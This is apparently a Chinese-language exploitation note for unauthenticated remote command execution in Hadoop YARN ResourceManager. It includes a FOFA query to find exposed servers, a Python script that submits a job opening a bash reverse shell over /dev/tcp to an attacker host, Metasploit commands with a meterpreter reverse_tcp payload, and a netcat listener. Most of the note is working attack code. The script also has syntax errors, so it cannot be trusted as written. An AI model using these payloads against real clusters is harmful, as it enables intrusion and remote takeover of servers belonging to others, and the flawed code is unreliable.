 ### 漏洞发现
- fofa获取资产语句 `app="APACHE-hadoop-YARN"`
- 访问`http://ip:8088` 返回 `Hadoop YARN ResourceManager WebUI` 页面
- POST请求: 向`http://ip:8088/ws/v1/cluster/apps/new-application`发送POST请求, 如果响应返回`application-id`则存在漏洞

### 漏洞利用
#### 脚本利用
```python
import requests
import json

target = 'http://192.168.81.127:8088/'
lhost = '192.168.81.238'
url = f'{target}ws/v1/cluster/apps/new-application'
resp = requests.post(url).content.decode('utf-8')
resp_json = json.loads(resp)

app_id  ; resp_json['application-id']
url = f'{target}ws/v1/cluster/apps'
data = {
	'application-id': app_id,
	'application-name': 'get-shell',
	'am-container-spec': {
		'commands': {'command':f'/bin/bash -i >& /dev/tcp/{lhost}/5566 0>&1'}
	}
	'application-type': 'YARN',
}
requests.post(url, json=data)
```

#### 模块利用
```
msfconsole -q
use exploit/linux/http/hadoop_unauth_exec
set rhosts 192.168.81.127
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.81.238
set lport 5566
exploit
```

### 漏洞复现
1. 监听端口等待反弹shell连接
```
nc -lvvp 5566
```
2. 调用`New Application API`创建新application
	- POST请求`http://ip:8088/ws/v1/cluster/apps/new-application`
	- 返回信息, 包含新application id
```
<NewApplication>
<application-id>application_1688957760252_0004</application-id>
<maximum-resource-capability>
<memory>8192</memory>
<vCores>4</vCores>
</maximum-resource-capability>
</NewApplication>
```
 3. 调用`Submit Application API`提交命令
	- POST请求`http://ip:8088/ws/v1/cluster/apps`, 提交执行命令
	- 返回信息
```
<app>
<id>application_1688957760252_0016</id>
```